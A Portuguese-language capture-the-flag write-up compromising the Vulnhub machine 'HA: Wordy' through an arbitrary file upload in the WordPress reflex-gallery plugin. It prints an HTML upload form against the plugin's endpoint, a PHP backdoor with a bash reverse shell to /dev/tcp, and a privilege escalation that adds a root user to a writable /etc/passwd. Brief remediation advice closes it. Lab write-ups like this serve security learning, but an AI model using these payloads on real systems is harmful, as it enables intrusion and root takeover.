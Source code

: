 ```yaml
---
title: "Pwning - HA: Wordy"
date: 2023-12-07 00:00:00 -0300
categories: [Vulnhub, Beco do Exploit]
tags: []
---
```


**Material de Apoio**

* EDB-ID-36374: [https://www.exploit-db.com/exploits/36374](https://www.exploit-db.com/exploits/36374)

* `/etc/passwd`: [https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/)

---

## **Reconhecimento**

Vamos, iniciar enumerando os hosts na LAN, a fim de identificar o IP da máquina alvo. Escolhermos uma forma ativa, através do [arp-scan](https://www.kali.org/tools/arp-scan/).

![](https://cdn-images-1.medium.com/max/2000/1*X4Jn3BasIhNWuDjjAxxw1w.png)

Realizamos então um scan de portas e serviços através do `nmap`, pois nosso ataque será executado única e exclusivamente pela rede, e nossa portas de entradas na máquina são justamente, os serviços.

![](https://cdn-images-1.medium.com/max/2000/1*Ufcvu6kSTQMa8B7yr7qKaA.png)

Descobrimos que está rodando HTTP na porta 80/tcp. Trata-se de um Apache na versão 2.4.29. Vamos abrir pelo browser para dar uma olhadinha no site:

![](https://cdn-images-1.medium.com/max/3840/1*vsXo7_ZpSY8b_rmYnomqYw.png)

Logo de cara, nos deparamos com a página padrão de um servidor Apache — uma possível misconfiguration — e com ajuda do [Wappalyzer](https://www.wappalyzer.com/)**, confirmamos sua versão e o Sistema Operacional por trás.

Podemos tentar explorar essa aplicação, e como não há links, teremos que enumerar os recursos com bruteforce. Para isso, optamos pelo [dirb](https://www.kali.org/tools/dirb/).

Sua utilização é simples:

```bash
dirb <url> <wordlist-path>
```

![](https://cdn-images-1.medium.com/max/2000/1*B9f95-SOCNHG1VYQMEG2XQ.png)

Como é vemos, há um `/wordpress/` na aplicação. Vamos dar uma olhada nessa página pelo browser:

![](https://cdn-images-1.medium.com/max/3840/1*Eh5EuEWWPqnPyfNtCHb_Bw.png)

Opa, muitas informações novas! Agora o Wappalyzer já nos entrega que, de fato, há o CMS Wordpress por trás dos panos.

Por se tratar de Wordpress, nossos principais alvos serão sempre os plugins, pois são de fontes externas, ou seja, muita chance de não terem passado por testes de segurança avançados, ou sequer serem atualizados/continuados.

Muitos deles são fáceis de serem identificados, então um simples *View Page Source* (`Ctrl + U`) deve nos ajudar.

![](https://cdn-images-1.medium.com/max/3840/1*_tzHlCPma43reeHTeEXtwg.png)

Já de cara, identificamos alguns, que podemos listar para nos organizarmos.

    wp-symposium 5.2.19
    reflex-gallery 5.2.19
    site-editor 4.3
    wp-easycart-data 3.0.4
    wp-support-plus-responsive-ticket-system 5.2.19
    slideshow-gallery 1.3.19
    mail-masta 5.2.19

Ainda, podemos rodar o [wpscan](https://www.kali.org/tools/wpscan/), para conferirmos mais a fundo os plugins, temas, versões e possíveis vulnerabilidades.

```bash
wpscan --url <url>
```

![](https://cdn-images-1.medium.com/max/2000/1*VyiKq9XlK8eMRW6PihQ-RA.png)

Logo abaixo alguns plugins são listados:

![](https://cdn-images-1.medium.com/max/2000/1*_WGEN1IaXbpHfuiSKdBv1Q.png)

E como dá para ver também, o primeiro a ser identificado como out dated é o **reflex-gallery**, vamos ver se existe alguma vulnerabilidade conhecida para essa versão dele com o [**searchsploit](https://www.exploit-db.com/documentation/Offsec-SearchSploit.pdf)**.

![](https://cdn-images-1.medium.com/max/2000/1*qh-Ig3VzcQ-6F2lcKXyrIQ.png)

Encontramos algo muito interessante: *upload *arbitrário de arquivo! Vamos conferir como essa vulnerabilidade funciona e como explora-la manualmente.

Para isso primeiro procuramos pelo arquivo, e depois vemos seu conteúdo com um **cat**:

![](https://cdn-images-1.medium.com/max/2580/1*mQvVoSRzRl4P7E4Uj-I1qQ.png)

Dando uma lida no exploit, é possível compreender a natureza da falha: trata-se de um indevido upload de arquivo no caminho especificado, com o método **HTTP POST**. Vamos testar?

## **Exploração**

Para isso, o autor desse exploit nos deixou um formulário em **HTML **que irá fazer justamente o envio do arquivo que quisermos no caminho em que há a brecha:

    <form method="POST" action="http://<ip-addr>:<porta>/wordpress/wp-content/plugins/reflex-gallery/admin/scripts/FileUploader/php.php" enctype="multipart/form-data" >
        <input type="file" name="qqfile"><br>
        <input type="submit" name="Submit" value="Pwn!">
    </form>

Basta salvarmos esse arquivo como um .html e abrirmos seu caminho absoluto no browser:

![](https://cdn-images-1.medium.com/max/2000/1*NoPDn3m2sNCMiMZkzu8wdA.png)

Agora, podemos testar! Que tal um backdoor em **PHP**?

    <?php
    
    exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip-addr>/<porta> 0>&1'");
    
    ?>

Vamos salvar isso em um arquivo **.php** e enviar ao servidor? Mas antes, deixar escutando lá na nossa máquina.

![](https://cdn-images-1.medium.com/max/2000/1*oI_xqao4-5W1xqC0oDteNQ.png)

E agora sim podemos enviar…

![](https://cdn-images-1.medium.com/max/2348/1*mxkZ0Vbiei7Msix0THtLrQ.png)

Agora, para executarmos o **.php** no *backend* da aplicação, basta acessarmos com um **GET**, que pode ser pelo browser, mas vamos brincar com o **WGET**.

O caminho padrão é descrito no exploit, então vamos tentar acessar nosso *backdoor*:

    wget http://192.168.15.166/wordpress/wp-content/uploads/backdoor.php

![](https://cdn-images-1.medium.com/max/2580/1*ntmiZ8dwl6id4RSxHGfSxg.png)

Prontinho, conseguimos nossa *shell* dentro do servidor heh

![](https://cdn-images-1.medium.com/max/2000/1*BDfwhSc39pBb01OtO-d1GA.png)

E como é possível ver, caímos com o usuário **www-data**, mas ainda podemos aumentar mais nosso poder

## **Pós-Exploração**

Antes de qualquer coisa, vamos melhorar nossa shell tornando-a interativa. Para isso, podemos, após saber que tem Python no sistema, usar o seguinte comando:

    python3 -c "import pty; pty.spawn('/bin/bash')"

Tendo a shell interativa, podemos usar o find para encontrar os arquivos cujo temos permissões

    find / -perm -u=s -type f 2>/dev/null

![](https://cdn-images-1.medium.com/max/2000/1*9NQ00fOHIqdgQ9puSN4kcg.png)

Percebemos que temos permissões de SUID no /etc/passwd, e esse arquivo é um potencial ponto de escalada de privilégio, pois lá onde as permissões e os usuários são definidos.

Vamos tentar manipular esse arquivo? Primeiro precisamos copiar seu conteúdo.

![](https://cdn-images-1.medium.com/max/2092/1*1wJgCHV_zWzuw5As7eMLdA.png)

Agora colamos o arquivo na nossa máquina e adicionamos um usuário com permissão root da seguinte forma:

    <usuario>:<senha_criptografada>:0:root:/root:/bin/bash

Para preenchermos a senha, precisamos criptografa-la da seguinte forma:

    openssl passwd -1 -salt <usuario> <senha>

Ficará algo próximo disso:

![](https://cdn-images-1.medium.com/max/2000/1*zcLPIl6Dx3VIWPYIt62Fkw.png)

Após isso feito, basta enviarmos o arquivo modificado para o servidor, substituindo o original. Para tal, podemos subir um servidor HTTP na nossa máquina:

    python -m http.server <porta>

e receber pelo wget no nosso servidor da seguinte forma:

    wget http://<ip-addr>:<porta>/passwd -O passwd

![](https://cdn-images-1.medium.com/max/2514/1*Wef0wlrjj_xtzcz1jLKzwg.png)

E com isso feito, bastar logarmos nessa nova conta!

![](https://cdn-images-1.medium.com/max/2000/1*W2x15E8JKmwwGZBUdqbeyg.png)

OWNADO AHAHAAHAH

## Correções de Vulnerabilidades

* Manter as versões dos plugins do Wordpress atualizadas;

* Impedir o upload de arquivos com extensões potencialmente perigosas caso não seja extritamente necessário (vide **.php**, **.xml**, **.py **e ****etc.)

* Remover permissões desnecessárias do usuário www-data, por exemplo, em executar python na shell;

* Bloquear a sobrescrição do /etc/passwd para usuários não administradores;

Ou se preferir, podemos corrigir com um simples comando:

![](https://cdn-images-1.medium.com/max/2000/1*53NYKZPYWcTnIMLSMiMNyA.png)

![](https://cdn-images-1.medium.com/max/2000/1*XT_z6EvnbeCFnTe1r89uIg.png)

